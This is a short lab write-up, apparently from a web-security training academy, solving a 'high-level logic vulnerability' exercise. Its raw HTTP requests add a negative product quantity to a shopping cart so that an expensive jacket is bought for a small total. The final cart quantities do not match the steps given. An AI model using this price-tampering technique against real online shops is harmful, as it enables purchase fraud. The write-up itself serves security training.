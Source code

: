 # Lab: High-level logic vulnerability
## Description
This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

## Solution
1. Add `1` item of the `Lightweight "l33t" Leather Jacket` to the cart
```yaml
POST /cart HTTP/1.1
Host: acd21fab1ed8c335c00b7f710032007a.web-security-academy.net
Cookie: session=yqY06p4NjfTKpDaTKGpvozPA4WWX69Mf
Content-Length: 36

productId=1&redir=PRODUCT&quantity=1
```

2. Add `-99` of another product to the cart

```yaml
POST /cart HTTP/1.1
Host: acd21fab1ed8c335c00b7f710032007a.web-security-academy.net
Cookie: session=yqY06p4NjfTKpDaTKGpvozPA4WWX69Mf
Content-Length: 35

productId=2&quantity=-99&redir=CART
```

The final cart should look something like this:
```
Your order is on its way!

Name								Price				Quantity	
Lightweight "l33t" Leather Jacket	$1337.00			8	
Safety First	$					91.82				-116	

Total:	$44.88
```
